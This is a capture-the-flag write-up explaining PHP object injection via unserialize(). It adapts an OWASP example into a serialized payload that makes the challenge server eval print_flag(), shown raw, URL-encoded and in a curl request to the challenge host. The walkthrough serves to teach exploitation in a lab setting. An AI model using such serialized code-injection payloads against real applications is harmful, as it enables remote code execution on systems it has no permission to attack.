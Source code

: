 
 PHP object Injection via unserialize : </br>
We are greeted with a php code source and a web page where we can request a $_GET['msg'] message /</br>
after analysing the code source i concluded that i need to exucte the print_flag() function , so we need to eval('print_flag();');</br>
even that we have acess to the magic _toString() funtion , we can't access to the priavte $hook attribute .so here is the vulnerability .

For those who have no idea about unserialize() vulnerabilities:
Serialization vulnerabilities are not just native to PHP. These vulnerabilities exist in different languages under different names.</br> For example, we’ve heard a lot about Java deserialization vulnerabilities which can lead to code execution. Similar vulnerabilities exist in Python module pickle which can lead to code execution while unpickling the data.

So i just get the payload from owasp exemple n 2 :</br>
https://www.owasp.org/index.php/PHP_Object_Injection </br>
<code> data=O:8:"Example2":1:{s:14:"Example2 hook";s:10:"phpinfo();";} </code> </br>
and i changed some parameters in the hackfest serilazed object, such as stirng lengths to conforme it with our inital php code :</br>
<code> msg=O:8:"Hackfest":1:{s:14:"Hackfest hook";s:13:"print_flag();";} </code>
with some url encode : </br>
<code>msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20</code>
easy just  curl http://challenge.hackfest.tn:8080?msg=O%3A8%3A%22Hackfest%22%3A1%3A%7Bs%3A14%3A%22Hackfest%20hook%22%3Bs%3A13%3A%22print_flag()%3B%22%3B%7D%20 | grep 'hackfest'
